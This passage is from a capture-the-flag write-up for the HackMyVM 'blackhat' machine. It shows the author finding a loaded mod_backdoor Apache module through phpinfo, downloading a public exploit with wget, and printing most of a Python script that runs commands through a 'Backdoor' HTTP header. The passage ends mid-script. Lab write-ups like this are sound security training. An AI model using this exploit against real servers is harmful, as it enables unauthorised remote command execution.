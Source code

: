 The `index.html` contained a hidden `div` with the text "check backboor". This hinted at a potential backdoor.

I then checked `phpinfo.php` for any mention of "backdoor".

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/blackhat]
└─$ curl http://192.168.1.16/phpinfo.php | grep backdoor -C 20
# ... (phpinfo output) ...
Loaded Modules </td><td class="v">core mod_so mod_watchdog http_core mod_log_config mod_logio mod_version mod_unixd mod_access_compat mod_alias mod_auth_basic mod_authn_core mod_authn_file mod_authz_core mod_authz_host mod_authz_user mod_autoindex mod_backdoor mod_deflate mod_dir mod_env mod_filter mod_mime prefork mod_negotiation mod_php7 mod_reqtimeout mod_setenvif mod_status </td></tr></table>
# ... (phpinfo output) ...
```

The `phpinfo.php` output confirmed that `mod_backdoor` was a loaded Apache module. This was a strong indicator of a backdoor.

### 3. Initial Access (`www-data`)

I searched `searchsploit` for `mod_backdoor` and general "backdoor" exploits. While `mod_backdoor` yielded no direct results, a general search for "backdoor" showed many. However, the `phpinfo.php` output specifically pointed to `mod_backdoor`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/blackhat]
└─$ searchsploit mod_backdoor
Exploits: No Results
Shellcodes: No Results

┌──(zengla㉿kali)-[~/Desktop/hackmyvm/blackhat]
└─$ searchsploit backdoor
# ... (many results) ...
```

Knowing `mod_backdoor` was present, I looked for known exploits for it. I found a Python exploit script on GitHub specifically for `Apache-HTTP-Server-Module-Backdoor`. I downloaded it using `wget`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/blackhat]
└─$ wget https://raw.githubusercontent.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/refs/heads/main/exploit.py
# ... (download output) ...
```

I then inspected the `exploit.py` script. It sends a `GET` request with a custom `Backdoor` header containing the command to be executed.

```python
import requests
import sys

def exploit(host, port, command):
    headers = {"Backdoor": command}
    url = f"http://{host}:{port}/"
    response = requests.get(url, headers=headers)
    text = response.text
    print(text)

def main():
    if len(sys.argv) != 3:
        print("Usage : ")
        print("\tpython %s [HOST] [PORT]" % (sys.argv[0]))
        exit(1)
    host = sys.argv[1]
    port = int(sys.argv[2])
    while True:
        command = input("$ ")
```